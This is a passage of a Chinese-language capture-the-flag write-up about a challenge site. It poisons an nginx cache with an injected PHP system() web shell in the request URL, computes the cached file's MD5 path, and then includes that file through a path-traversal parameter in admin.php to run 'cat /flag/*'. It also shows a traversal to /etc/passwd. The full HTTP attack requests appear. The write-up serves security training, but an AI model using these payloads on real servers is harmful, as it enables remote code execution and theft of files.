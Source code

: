 缓存目录在`/var/lib/nginx/cache`,levels为1:2

请求url

```http
GET /index.php/a.css?<?=system($_GET['moxiaoxi']);?>  HTTP/1.1
Host: ctf.momomoxiaoxi.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://ctf.momomoxiaoxi.com/admin.php?p=../../../../../../../etc/passwd
Cookie: PHPSESSID=anohd4cgeo6r60f4boar8td663
DNT: 1
Connection: close


```

此时，`$host=ctf.momomoxiaoxi.com,$request_uri=/index.php/a.css?<?=system($_GET['moxiaoxi']);?>` 哈希为`md5(ctf.momomoxiaoxi.com/index.php/a.css?<?=system($_GET['moxiaoxi']);?> `

为`196a87789a6cdc48228e48c484fdce90`

按照配置⽂件中所规定的 1:2 的命名法，可以得到完整路径 为： `/var/lib/nginx/cache/0/e9/196a87789a6cdc48228e48c484fdce90`

```http
GET /admin.php?p=../../../../../../../../../var/lib/nginx/cache/0/e9/196a87789a6cdc48228e48c484fdce90&moxiaoxi=cat+/flag/* HTTP/1.1
Host: ctf.momomoxiaoxi.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://ctf.momomoxiaoxi.com/admin.php
Cookie: PHPSESSID=86gb25qq39f301g3j59afadbi0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1


```

可以得到flag

```http
       ��g[    ����������g[    4�  � �                                                                                                      
KEY: ctf.momomoxiaoxi.com/index.php/a.css?flag{Xss_CsRF_Ng1nx_CACH@}
flag{Xss_CsRF_Ng1nx_CACH@}HTTP/1.1 200 OK
Date: Mon, 06 Aug 2018 05:50:18 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 1167
Connection: close
Content-Type: text/html; charset=UTF-8

```

flag{Xss_CsRF_Ng1nx_CACH@}

## 参考

1. https://blog.veryhax.ninja/blog/ctfzone17-timehackers/
2. TIMEHACKERS